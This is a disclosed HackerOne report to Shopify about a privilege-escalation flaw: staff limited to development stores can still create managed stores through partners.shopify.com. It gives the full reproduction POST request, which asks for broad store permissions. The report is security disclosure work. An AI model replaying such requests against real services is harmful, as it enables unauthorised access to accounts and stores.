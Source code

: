 # Add new managed stores without permission

## Report Details
- **Report ID**: 1167753
- **URL**: https://hackerone.com/reports/1167753
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-04-18T12:23:49.850Z
- **Disclosed**: 2021-07-08T18:25:09.605Z

## Reporter
- **Username**: jmp_35p
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Details
A staff member who has permission to add, archive and unarchive development stores as shown in managedStoreA.png  can also add new managed stores. I can't tell if the issue I pointed out in #1167453 has the same root cause as this. A staff member with the said permission can access /organizationID/stores/create_managed_store endpoint as seen in managedStoreB.png. The POST request below can be used to reproduce the described issue.

```
POST /100808/stores/create_managed_store HTTP/1.1
Host: partners.shopify.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://partners.shopify.com/100808/stores/new?store_type=managed_store
Content-Type: application/json
X-Requested-With: XMLHttpRequest
X-CSRF-Token: ...

{"message":"","permissions":["applications","customers","dashboard","domains","draft_orders","edit_orders","gift_cards","links","locations","marketing","marketing_section","orders","overviews","pages","products","reports","themes","preferences","view_shopify_payments_payouts","view_billing_details","view_private_apps","edit_private_apps"],"store_domain":"myStore1","collaborator_access_code":""}

```

## Impact

Staff member can perform action that requires permission

## Attachments
- managedStoreA.png
